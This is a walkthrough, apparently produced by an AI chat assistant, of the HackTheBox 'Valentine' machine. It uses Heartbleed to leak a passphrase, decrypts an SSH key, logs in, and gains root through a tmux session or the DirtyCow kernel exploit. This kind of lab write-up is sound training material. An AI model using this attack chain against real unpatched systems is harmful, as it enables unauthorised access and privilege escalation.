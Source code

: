 ## 💘 HTB: Valentine Walkthrough

**Machine:** Valentine  
**Difficulty:** Easy  
**OS:** Linux  
**Author:** HackTheBox  

Valentine is an easy Linux box that demonstrates how memory leaks from vulnerabilities like Heartbleed can expose sensitive credentials. It requires a combination of exploit crafting, crypto handling, and privilege escalation via known Linux kernel exploits.

---

### 🔍 Recon & Enumeration

**Nmap Basic Scan:**
```bash
nmap -sC -sV -p- 10.10.10.79
```

Identified open ports:
- **80 (HTTP)**: Apache/2.2.22 (Ubuntu)
- **443 (HTTPS)**: Vulnerable OpenSSL (Heartbleed, CVE-2014-0160)

**Nmap Vuln Scripts:**
```bash
nmap -p 80,443 --script vuln 10.10.10.79
```

Identified vulnerabilities:
- **Heartbleed (CVE-2014-0160)**
- **SSL POODLE (CVE-2014-3566)**
- **CCS Injection (CVE-2014-0224)**

Interesting directories:
- `/dev/`
- `/index/`

---

### 💔 Heartbleed Exploitation

Using a public Heartbleed exploit script, dump memory:

Search for base64 strings in the dump. One string found:
```bash
aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==
```
Decoded:
```bash
heartbleedbelievethehype
```

---

### 📁 Web Directory Discovery

Accessing `/dev/`, locate a file named `hype_key` — an encrypted private key in hexdump format.

Steps:
```bash
xxd -r hype_key > hype.key
openssl rsa -in hype.key -out decrypted.key
```
When prompted, enter password: `heartbleedbelievethehype`

---

### 🔐 SSH Access

Attempt SSH with:
```bash
chmod 600 decrypted.key
ssh -i decrypted.key hype@10.10.10.79
```
If encountering `no mutual signature supported` error, use:
```bash
ssh -oPubkeyAcceptedAlgorithms=+ssh-rsa -i decrypted.key hype@10.10.10.79
```

---

### ⬆️ Privilege Escalation

#### Method 1: Tmux Session (Preferred)
- Check for running tmux sessions as root.
- Attach to existing root session:
```bash
tmux attach
```

#### Method 2: DirtyCow Kernel Exploit
- Upload `40839.c` to target
- Compile:
```bash
gcc 40839.c -o cowroot -pthread
```
- Execute to create root user `firefart`
- Switch user:
```bash
su firefart
```

---

### 🏁 Summary
- **Initial Access:** Exploit Heartbleed to extract passphrase
- **Lateral Movement:** Decrypt private SSH key for `hype`
- **Privilege Escalation:** Attach root tmux or use DirtyCow

---

Let me know if you'd like this turned into a PDF, or if you want visual diagrams for the two privilege escalation paths!

